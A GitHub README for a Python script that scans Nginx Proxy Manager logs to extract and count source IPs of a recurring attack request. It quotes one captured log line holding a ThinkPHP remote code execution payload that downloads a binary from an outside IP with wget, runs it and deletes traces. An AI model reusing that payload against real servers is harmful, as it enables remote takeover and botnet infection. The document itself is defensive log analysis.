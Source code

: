 # About this script

The idea behind this script comes from finding out a bunch of really strange requests to my Nginx Proxy Manager container that is open to the internet.
The requests in case are almost always identical to this:

`[13/Jan/2021:15:07:48 +0000] 400 - GET http localhost-nginx-proxy-manager "/index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.174/bins/MwEIrNsdFa.x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp'" [Client 220.127.239.7] [Length 154] [Gzip -] "Uirusu/2.0" "-"`

The client IP is always different from what I can tell so far and the IP that it tries to wget is almost always different, trying to run that wget command will give you an "Not Authorized" response. **This script is not a solution for this issue** it just goes trough your NPM logs and finds out all the requests similar to this and puts them in a different file, I started out with a log file with 370 requests and, after running this script I got 108 requests that match the one I posted above, keep in mind that these 370 requests come from a timespan of less than 36h. And yes I am aware that NPM does not use PHP so this attempt to inject an PHP script most likely never runs ence the 400 (bad request) response from NPM, *however the authors of this could move from trying to inject PHP payloads to injecting something else that could work!*

This script reads trough your Nginx Proxy Manager logs, specially the **default.log** file stored inside your npm directory, right now you need an copy of the logs directory inside the root of this script's folder with the name of *logs*, you also need to create a directory called **parsed** so that the script can write a file with all of the requests that it looks for. It also asks for your Public IP in order to filter out your own requests to your npm server.

After running the script it will tell you how many results it got and it will also create a file that stores all of the requests it finds inside the **parsed** directory inside a file called **parsed-default.log**

Right now this scripts only does this, however I'm going to keep developing this script until it is able to extract a list of IPs from the *parsed-default.log*, besides doing this, the script will also be able to tell if the same IP tries to make this request more than once, the point of this is to see if these requests come from all over the world or just from countries known to have botnets like this running, like Iran, China and so on. So far I can say that this is not the case, because I've already found IPs from Italy and the UK that seem residential IPs but further investigation is required to reach an conclusion.

For anyone thinking that bulk blocking the IP ranges that this script find keep in mind that these IPs could also be comming from countries in the world that usually are known for not having these kinds of requests and you could possibly block people that you actually want to access your services without even knowing.

And finally a disclaimer, I am by no means a Python expert, just started to learn it less than a month ago, so it's probably going to take a while before I'm able to filter out the requests into a list of IP's. If you are willing to help me improve this script onto something that could help the NPM developers develop an fix for this feel free to contact me.

# Update

I have found a way to filter out the IPs that send these requests and I've made a new script that does precisely that. To make it easier for anyone to run this script I've also implemented a simple menu for users to navigate trough with the ability to first parse the logs to find out any requests similar to the ones I've found and after that filter out all of this requests and it builds an list of indidual IPs that sent these requests.

It also creates all the directories it needs to work properly, and the only set up you need to do is the following:

1- A simple git clone command will copy everything you need to run this script, besides Python3 you have to set that up by yourself if your system does not come with python.

2- When you first run this script it asks for an **absolute path** to the default.log file, but **first make a copy of that file onto an other directory**. after that cd into that directory you just copied the file to and run the command `sudo chmod 777 default.log`, then you can run `pwd` and copy that output add an *default.log* to the end of it and give it as the absolute path for the default.log file.

3- **DO NOT TRY TO RUN THIS SCRIPT BEFORE DOING STEP 2!!** If you don't do that, the script will never stop running and you'll probably have to restart your machine and start over. I copied all the files from my NPM server to an usb drive and ran this script on my laptop just to be sure I don't get myself into an infinite loop!

4- You will probably have to run `chmod +x npm_log_parser.py` to make this script executable, so `cd` into the directory your git command created and then run the chmod command, after that you just need to type `./npm_log.parser.py` into the command line and the script will run. It will store a parsed version of the *default.log* file inside a directory called *parsed* and the results of the IP filter script inside a directory called *results*

As long as you keep the known issues in mind the script should always work, I started out with 374 lines of NPM logs, parsed them into 105 single lines, then was able to filter out a grand total of 81 unique public IPs making these requests!

This script should work in any linux distribution, however I only tested it in Pop Os 20.10, but from what I know the commands the script runs to create the folders on first start exist in all Unix based systems, *I think..*

## **Known Issues**
If you chose option 1 in the main menu after parsing the default.log file the program will ask you if you want it to filter out the results right away, this almost works... If I run the script like this I get 78 unique public IPs, if I say `n` and grab the filename it gives me before quitting and restart the script and select option 2 and give it the name I just grabbed it will give me 81 unique IPs, which is my expected output.
